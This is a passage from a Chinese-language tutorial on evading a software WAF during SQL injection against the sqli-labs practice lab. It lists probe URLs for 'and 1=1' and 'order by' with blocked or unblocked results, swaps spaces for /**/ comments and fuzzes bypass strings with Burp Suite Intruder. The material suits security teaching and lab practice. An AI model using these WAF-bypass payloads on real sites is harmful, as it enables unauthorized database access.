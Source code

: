 那如何继续探测呢？其实到这时候就应该想想这种软件WAF的拦截思路是什么，一般都是写死检测源或者利用正则的方式进行拦截。

那么我们是不是可以将and 1=1做拆分进行测试呢？进一步判断究竟是哪里进行拦截呢？

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1' and--+ 不拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' and --+ 不拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' and 1--+   拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' and 1=--+ 拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' and 1=1--+   拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' and =--+   不拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' and =1--+ 拦截
```

从上述结果分析规律可知：只要and后面增加数字就会被拦截，那么如何进行绕过呢？

其实根据前面提出的原理可以反推解决方案就是就拦截语句进行复杂变形或者替换。那么提到替换就很容易想到利用`/**/`注释符的方式来替换
拦截语句。

也就是可以变成如下语句

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1' and/**/1=1--+
```

可以看到右侧的运行结果还是被拦截了，那么换另一个思路如何对替换的内容中增加复杂度呢？也就是`/**/` 注释中增加复杂度，那么如何自动化的增加复杂度并进行自动化测试呢？

##### burpsuite FUZZ测试

其实方式有很多种，最简单的就是通过burpsuite自带brute forcer功能进行FUZZ测试！！

第一步将拦截页面放到Intruder中，并对需要构造复杂度的点进行增加占位符。

第二步：对占位符中Payloads设置为Brute forcer翻译为暴力(有的同学对该软件汉化过得可以选择暴力)，在Charater set中可以自己尝试增加符号或者数组，然后选择最大最小长度，之后进行start attack。

第三步：点击start attack之后会弹出新界面。然后根据长度进行排序或者查看Response查看响应信息来判断是否通过。

最后一步：对FUZZ出来的内容进行验证

##### 小结

经过上述测试可以总结出一个整体的思路，就是根据关键词穷举拦截点，然后根据拦截点插入/**/注释语句进行替
换，在根据注释语句进行复杂FUZZ。

那么刚才的思路是对 and 关键词的，那么还有没有对其他关键词使用呢？ 当然可以，下面我们就继续看 order by 
和union select



#### order by

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1' order by 3--+拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' order--+不拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' order --+   不拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' order by--+拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' orderby--+不拦截
```

根据上述结果可以分析出order空格by 会遭到拦截，那么还是可以将空格的位置利用注释替换+复杂度FUZZ来混过检测机制。
